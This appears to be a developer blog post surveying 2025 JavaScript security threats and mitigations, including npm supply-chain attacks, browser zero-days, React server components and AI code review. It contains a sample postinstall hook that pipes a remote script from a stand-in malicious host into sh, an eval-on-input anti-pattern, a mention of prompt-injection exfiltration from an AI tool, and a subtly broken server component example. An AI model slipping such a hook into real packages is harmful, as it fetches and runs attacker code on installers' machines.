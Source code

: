 ```yaml
---
title: "JavaScript Security Attacks and Bugs Every Developer Must Know in 2025"
description: "Explore the most critical JavaScript threats, latest bugs, and practical mitigations for 2025. Learn real-world examples, code vulnerabilities, and how modern tools—including AI—can help you build safer apps."
keywords: "JavaScript security 2025, React attacks, AI for code security, zero-day exploits, JS bugs, modern web threats, developer best practices"
---
```


# JavaScript Security Attacks and Bugs Every Developer Must Know in 2025

In 2025, the web is more powerful—and riskier—than ever. Modern JavaScript features, cutting-edge frameworks, and rapid ecosystem changes boost developer productivity but also introduce new attack surfaces and security pitfalls. This deep dive covers the latest attacks, notable vulnerabilities in popular packages, and actionable tips (with code) to secure your next React or Node.js project.

## Why JavaScript Security in 2025 Is a Top Priority

- **Zero-day bugs are escalating**: Major browsers and leading npm packages face critical vulnerabilities exploited shortly after release.
- **Modern JS = More Attack Vectors**: Server-side rendering (SSR), server components (RSC), AI-driven UIs, and new Set methods add complexity and risks.
- **Developers are targets**: Popular open-source dev tools are increasingly attacked, not just user-facing apps.

## 1. Recent Major Attacks Impacting Developers

### a. Supply Chain Attacks & Package Bugs
The npm ecosystem remains a prime target. In June 2025, multiple zero-day vulnerabilities struck popular web frameworks and package managers, with malicious code injected into build pipelines.

**Example: Malicious Package Install Script**
```javascript
// Malicious postinstall script example in an npm package
"scripts": {
  "postinstall": "curl -s https://malicious-server.com/payload.sh | sh"
}
```
- **Mitigation**: Lock dependencies with `npm ci`, use `npm audit` (link: https://docs.npmjs.com/cli/v10/commands/npm-audit), and consider GitHub’s Dependabot (link: https://docs.github.com/en/code-security/dependabot) for auto-vulnerability detection. Always review third-party packages before installing.

### b. Zero-Day Vulnerabilities in Browsers & JS Engines
- **Google Chrome (CVE-2025-5419)**: The third actively exploited zero-day in 2025, leveraging new JS engine features for privilege escalation (link: https://chromereleases.googleblog.com/2025/07/stable-channel-update-for-desktop.html).
- **Microsoft Copilot (CVE-2025-32711)**: Known as "EchoLeak," this zero-click data exfiltration via prompt injection in a widely used developer tool was patched quickly after disclosure (link: https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-32711).

### c. Exploits Targeting Frameworks
- **WordPress Theme "Motors" (CVE-2025-4322)**: A privilege escalation bug hijacked admin accounts, driven by vulnerable JS plugin code failing to validate user input (link: https://wordpress.org/news/2025/07/security-release/).

## 2. New JavaScript Features & Potential Pitfalls

2025 introduces new ECMAScript features, but missteps can heighten risks:

### Modern RegExp `/v` Flag
- **What’s New**: Enables advanced Unicode features like intersection, union, and string matching.
- **Code Example**:
  ```javascript
  // Safe usage example
  let emojiPattern = /\p{RGI_Emoji}/v;
  let result = emojiPattern.test("Hello 😄"); // true if emoji detected
  ```
- **Warning**: Sanitize user-supplied regex patterns to prevent ReDoS (Regular Expression Denial of Service) attacks (link: https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS).

### Promise.try()
- **Feature**: Catches sync exceptions in promise chains.
- **Pitfall**: Overuse can mask errors if not handled explicitly.
  ```javascript
  function safeCompute() {
    return Promise.try(() => possiblyUnsafeFunc())
      .catch(err => { 
        // Handle error appropriately!
        console.error(err); // Replace with proper logging
      });
  }
  ```

### Node, Deno, and Bun Divergence
2025 sees growing runtime divergence, causing compatibility and breakage bugs in cross-platform packages (link: https://nodejs.org/en/blog/2025/01/runtime-trends).

## 3. The Role of React and Modern UI Attacks

### Server Components & SSR
- **Trend**: React 19 and Next.js adopt Server Components, reducing client bundle size by shifting logic server-side (link: https://nextjs.org/blog/next-15).
- **Attack Angle**: SSR endpoints can expose sensitive data or internal APIs if not isolated.
- **Prevention Example**:
  ```javascript
  // Server Component fetch
  export default function DashboardData() {
    // NEVER expose API keys or secrets from here!
    const stats = fetch('/api/admin-stats', { headers: { 'Authorization': `Bearer ${process.env.API_TOKEN}` } });
    return <div>{stats}</div>;
  }
  ```

### Real-World Exploit
- **Case**: Several 2025 attacks exploited React apps by injecting malicious JavaScript through misconfigured SSR endpoints, leading to data leaks (link: https://react.dev/blog/2025/security-updates).

## 4. Leveraging AI for Proactive Defense
AI coding assistants (GitHub Copilot, Codeium, TabNine) now flag insecure code, detect outdated npm packages, and assist with secure Express/React endpoints (link: https://github.com/features/copilot, https://codeium.com/blog/ai-security).

**Example: Using AI to Spot Bad Practices**
```javascript
// AI tools auto-flag use of unsafe eval()
function runUserScript(input) {
  eval(input); // AI warning: Security risk—code injection possible!
}
```
- **Best Practice**: Avoid `eval` on user input; use AI-powered code reviews (link: https://tabnine.com/blog/ai-code-security).

## 5. Key Defensive Coding Practices
- **Lock dependencies**: Use exact versions in `package.json` and `npm ci`.
- **Run audits**: Regularly execute `npm audit` and act on advisories (link: https://docs.npmjs.com/cli/v10/commands/npm-audit).
- **Enforce CSP**: Implement Content Security Policy on all web assets (link: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).
- **Avoid direct user input**: Exclude user data in RegExp, `eval`, or dynamic imports.
- **Secure SSR endpoints**: Validate all incoming requests (link: https://nextjs.org/docs/app/building-your-application/securing-your-app).
- **Leverage AI tools**: Use static analysis for peer code review.

## Also Read
- [Leveraging AI for Proactive App Security Monitoring in 2025](https://ome9a.com/blogs/leveraging-ai-for-proactive-app-security-monitoring-in-2025-6887ab48006af5fb73e8ccf4)
- [Analyzing the Tea App Breach: Cybersecurity Lessons for Developers in 2025](https://ome9a.com/blogs/analyzing-the-tea-app-breach-cybersecurity-lessons-for-developers-in-2025-688525fb5e0c80382f5d0f8a)
- [Securing JavaScript Applications with Content Security Policy (CSP) in 2025](https://ome9a.com/blogs/securing-javascript-applications-with-content-security-policy-csp-in-2025-687f43a6cbecc7f0227e0fe6)

## Challenges
- **Rapid Evolution**: Keeping up with new JS features and vulnerabilities is demanding.
- **Tool Dependency**: Over-reliance on AI or third-party tools can introduce risks.
- **User Education**: Developers need training to spot subtle security issues.

## Conclusion
As JavaScript evolves rapidly in 2025, so do its attack surfaces—from zero-day exploits to supply chain attacks via npm packages. Understanding these threats and applying preventive measures like dependency locking, secure SSR, cautious feature integration, and AI tools can keep your projects secure while delivering modern experiences.

**Stay curious, stay secure, and keep shipping clean code.**

**Call to Action**: Defend your projects in 2025 - Use modern tools, stay aware of new JavaScript features, and treat every dependency as a potential risk. Have a story about a recent bug or attack? Share on X at [@omegaStrikes](https://x.com/omegaStrikes) with #JS2025—let’s strengthen the developer community together!
